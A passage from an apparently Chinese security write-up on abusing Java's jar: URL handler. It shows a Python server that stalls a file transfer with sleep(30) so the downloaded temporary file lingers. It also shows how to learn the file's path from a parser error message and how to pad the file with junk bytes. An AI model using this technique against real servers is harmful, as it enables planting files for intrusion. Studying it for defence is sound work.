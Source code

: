 ```python

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```

这个服务器的目的就是接受客户端的请求，然后向客户端发送一个我们运行时就传入的参数指定的文件，但是还没完，实际上我在这里加了一个 sleep(30)，这个的目的我后面再说

既然是文件上传，那我们又要回到 jar 协议解析文件的过程中了

**jar 协议处理文件的过程：**

(1) 下载 jar/zip 文件到临时文件中
(2) 提取出我们指定的文件
(3) 删除临时文件

那我们怎么找到这个临时的文件夹呢？不用想，肯定是通过报错的形式展现，如果我们请求的

jar:http://localhost:9999/jar.zip!/1.php 

1.php 在这个 jar.zip 中没有的话，java 解析器就会报错，说在这个临时文件中找不到这个文件

**如下图：**

[![img](assets/1667437015004-4193c796-bce9-4d9d-b7df-c370f8de242b.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Java解析报错.png)此处输入图片的描述

既然找到了临时文件的路径，我们就要考虑怎么使用这个文件了（或者说怎么让这个文件能更长时间的停留在我们的系统之中，我想到的方式就是sleep()）但是还有一个问题，因为我们要利用的时候肯定是在文件没有完全传输成果的时候，因此为了文件的完整性，我考虑在传输前就使用 hex 编辑器在文件末尾添加垃圾字符，这样就能完美的解决这个问题
